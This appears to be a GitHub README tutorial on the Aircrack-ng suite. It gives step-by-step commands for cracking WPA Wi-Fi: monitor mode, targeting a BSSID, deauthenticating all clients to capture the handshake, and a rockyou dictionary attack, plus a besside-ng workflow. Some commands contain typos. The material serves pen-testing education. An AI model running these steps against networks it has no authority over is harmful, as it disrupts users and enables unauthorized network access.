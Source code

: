 # Aircrack-ng Suite

Aircrack-ng is an oper source tool for cracking and securing wireless network.  It is all in one suite allows you to keep an eye on WiFi security, and capture data packets. WiFi cards can be captured and injected to test their performance. It can also be used by pen testers to attack and crack the WPA and WEP protocols.

It mainly focuses on four areas of wifi security:

-  **Monitoring:** Data is captured in packets and exported to text files for processing by third-party software.

-  **Attacking:**  Packet injection can be used to perform replay attacks, deauthentication, and create bogus access points, among other things.

-  **Testing:** Testing the capabilities of WiFi cards and drivers

-  **Cracking:** WEP and WPA1/WPA2 PSK.

There are several aircrack-ng modes (Click here to view) but we are using only the following modes.

- [Airmon-ng:](https://www.aircrack-ng.org/doku.php?id=airmon-ng)  It's used to switch between monitor and managed modes. The status of the interfaces can be viewed by running the airmon-ng command without any parameters. It can also list and kill programmes that may cause the wireless card to malfunction.
- [Airodump-ng:](https://www.aircrack-ng.org/doku.php?id=airodump-ng): Airdump-ng is a tool that lists all of the networks in our immediate vicinity and displays relevant information about them. It's a packet sniffer, which means it's meant to capture all of the packets that pass across our network when we're in Monitor mode. We may run it against all of the networks to gather relevant information such as the mac address, channel name, encryption type, and number of clients connected to the network, and then begin targeting the target network. We can also use it against a specific AP (access point) to collect only packets from a specific Wi-Fi network.

- [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng): Aireplay-ng is a programme that generates unnecessary wireless traffic. It can hack WEP and WPA keys when combined with aircrack-ng. It's function is to insert frames. aireplay-ng has the ability to perform a variety of powerful strikes, including the creation and capture of new IVs. [Here](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) are some other forms of attacks:

- [besside-ng](https://www.aircrack-ng.org/doku.php?id=besside-ng): It is the best of both worlds. It automatically cracks WEP and WPA network. Note Wesside-ng supports only WEP but Besside-ng can support both WEP and WPA network.Besside-ng has the capability to crack all the associated WEP networks and log the WPA handshakes. And WPA handshakes can then be cracked using aircrack-ng. It is a combination of easside-ng and wesside-ng. 
	- [Easside-ng:](https://www.aircrack-ng.org/doku.php?id=easside-ng)
Easside-ng is a tool which allows to communicate via an WEP-encrypted access point (AP) without knowing the WEP key. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme and then setup a TAP interface so that one can communicate with the AP without requiring the WEP key. All this is done automatically.
	- [Wesside-ng:](https://www.aircrack-ng.org/doku.php?id=wesside-ng)
Wesside-ng is a tool which incorporates a number of techniques to seamlessly obtain a WEP key in minutes. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme, reinject ARP requests and finally determine the WEP key. All this is done automatically.

## Pre-requisites:

- **Software:** We are using Kali Linux through VMware.

- **Hardware:** Wifi adaptor is necessary to inject packets and attack Wifi. Our laptop only has only inbuilt wifi adapter, which is insufficient. To put it another way, we require a wireless adapter that supports monitor mode and packet injection. [Here](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html) is a list of compatible adapters for pen testing.

The chipset we have is the TP-LINK TL-WN722N.


<img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/tplink.jpg" width="250" height="180" rotate="90">

However, according to the list of compatible adaptors, Version 1 is the only version that is compatible, yet we received Version 3. To enable the monitor mode in V3, we followed a few steps. [Click here to view the steps](https://github.com/megha-511/Aircrack-ng/blob/8083e818320b3b7c8485f83ef2c2c9ac05138571/Enable%20monitoring%20mode%20in%20V2_3.docx)

## 1. Crack WPA

1. 

    sudo airmon-ng wlan0
    
    iwconfig

This should show wlan0 in monitor mode.

2.

Sudo airmon-ng

Wlan0 must be changed to wlan0mon by now if not follow the steps below: ([Source)](https://www.reddit.com/r/Kalilinux/comments/nm14i5/my_wlan0_doesnt_change_to_wlan0mon_but_it_shows/)

`sudo airmon-ng stop wlan0`

`sudo Systemctl disable NetworkManager`

`sudo ip link set wlan0 down`

`sudo ip link set wlan0 name wlan0mon`

`sudo systemctl enable NetworkManager`

Now check for iwconfig it should show up wlan0mon.

3. To get the bssid of the target network and channel number: `sudo airodump wlan0mon`

4. `sudo airodump wlan0mon -d <target bssid>`

5. Wait until some connections are found

6. `sudo airodump -w wifiHack1 -c <channel_number> --bssid <target bssid> wlanomon`

  - w : write to wifiHack1 file which is used to store the 4 way handshake

7. In a separate window let’s deauthenticate all the users. When they connect back we can capture the handshake. `sudo aireplay –deauth 0 -a <bssid> wlan0mon`

8. Until new client joins the network please wait. You can see handshake on the top right corner of the screen where you hit airodump query.

9. Once handshake is captured, perform following tasks to do dictionary attack on the capture file to retrieve the wifi password.

-

sudo airmon-ng stop wlan0mon

sudo aircrack-ng wifiHack1-01.cap -w /usr/share/wordlists/rockyou.txt

That’s it! The wifi password will be cracked if it is common and simple by using dictionary attack. For complex passwords we need a strong GPU processor to crack it.

## 2. besside-ng

- How besside works?
<img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/How%20besside-ng%20works.jpg" width="150" height="280">

- We have followed the below steps to auto capture the WPA handshake and crack using aircrack-ng:

1.  `sudo airmon-ng start wlan0mon`

2. Capture the bssid of the target network: `sudo airodump-ng wlan0mon`

3. `sudo airodump -w bessideHack -c <channel number> -d <bssid of the target> wlan0mon`

4. To autogenerate the capture file called wpa.cap: `sudo besside-ng -b <bssid>  wlan0mon`

- There is a small problem with besside as it creates malformed packets and no management frames. There is a work around for this,  we need to merge the capture files generated by airodump and the besside. [Source](https://security.stackexchange.com/questions/121636/missing-essid-from-aircrack-ng)

- `Mergecap -w merged.cap bessideHack.cap wpa.cap`

- `Wireshark merged.cap`

- Open .cap file with Wireshark: `wireshark wpa.cap`

- Right-click on the malformed packet and choose “Ignore”

- File -> Export Specified Packets

- Select “Remove Ignored Packets”

- Save the file as wpa1.pcap

6. `sudo aircrack-ng wpa1.pcap -w /usr/share/wordlists/rockyou.txt`

## Additional resources:
Frame injection: [Github](https://github.com/aircrack-ng/rtl8188eus)
[Frame Vs Packet](https://www.networkworld.com/article/3225865/ethernet-frames-and-packets-whats-the-difference.html)
Fragment and Forge: Breaking Wi-Fi Through Frame Aggregation and Fragmentation[usenix2021.pdf (mathyvanhoef.com)](https://papers.mathyvanhoef.com/usenix2021.pdf)
[4-way Handshake attack](https://netbeez.net/blog/secure-network-4-way-handshake/#:~:text=The%204-Way%20Handshake%20utilizes,Handshake%20occurs%20after%20EAP%20authentication.)
